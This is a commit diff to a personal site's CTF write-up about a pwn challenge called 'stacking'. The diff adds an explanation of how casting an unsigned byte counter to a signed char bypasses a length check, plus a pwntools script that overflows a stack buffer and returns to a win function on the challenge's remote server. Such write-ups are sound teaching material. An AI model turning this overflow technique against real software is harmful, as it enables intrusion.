

Before and after one commit to 4f3rg4n/4f3rg4n.github.io, a Jekyll site: the page built from _posts/CTF-Writeups/2024-11-26-stacking.md, in a window 1280 px wide and 1400 px high, scrolled down 3292 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; before the commit the page ends 3922 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-26-stacking.md

````diff
--- a/_posts/CTF-Writeups/2024-11-26-stacking.md
+++ b/_posts/CTF-Writeups/2024-11-26-stacking.md
@@ -60,7 +60,7 @@ size_t __fastcall parse_data(const char *csv_str) {
   start_of_data = 0;
   do
   {
-    memset(buffer, 0, 0x10uLL);
+    memset(buffer, 0, 16);
     for ( i = 0; csv_str[++ctr] != ','; ++i ) // read data from the csv string until the next comma
     {
       if ( !csv_str[ctr] )
@@ -90,3 +90,47 @@ This function processes a CSV string, It extracts and processes each value betwe
 Then it stores each value in a buffer `s`, prints the length of the value and also prints the value itself.
 The function continues parsing until all values in the CSV string are processed.
 Finally, it returns the total length of the input string.
+
+## The vuln - Casting `unsigned __int8` to `char`
+```c
+if ( (char)i > 16 ) {
+  puts("Too big data");
+  exit(1);
+}
+```
+Here, `i` is declared as `unsigned __int8` meaning it can hold values from `0` to `255`.
+However, casting it to char changes its interpretation to signed, where it can hold values from `-128` to `127`.
+As a result, when `i` is greater than `127`, the cast causes it to wrap around into negative values.
+This bypasses the if `if((char)i > 16){...}` check because a negative value will always fail this condition,
+even though the actual value of `i` (in its original `unsigned __int8` form) may still exceed `16`.
+
+This vulnerability allows us to provide CSV data with values longer than 16 characters, effectively overwriting the return address of the `parse_data` function stored on the stack.
+Using this, we can redirect the program to the win function.
+
+## Exploit
+To exploit this vuln we create a payload that:
+1. Bypasses the length check using the signed/unsigned casting vuln.
+2. Overflows the `buffer` to overwrite the ret address of the `parse_data` function.
+3. Redirects the execution to the `win` function.
+* Note: in some cases the stack may be misaligned, causing issues when returning to a function like win.
+  This happens because the stack pointer is not aligned to a 16-byte boundary, which is required by the x86-64 System V ABI.
+  To fix this, we use a `ret-gadget` first, which will realign the stack to the correct boundary.
+
+```py
+from pwn import *
+
+# Connect to remote server
+conn = remote('pwnable.co.il', 9009)
+
+# Functions symbols & Gadgets
+ret = p64(0x0000000000401479)
+win = p64(0x00000000004012e5)
+
+# Create paylod
+padding = b'\x00' * 56
+paylod = padding + ret + win
+
+# Sending paylod to remote server
+conn.sendline(paylod)
+conn.interactive()
+```
````
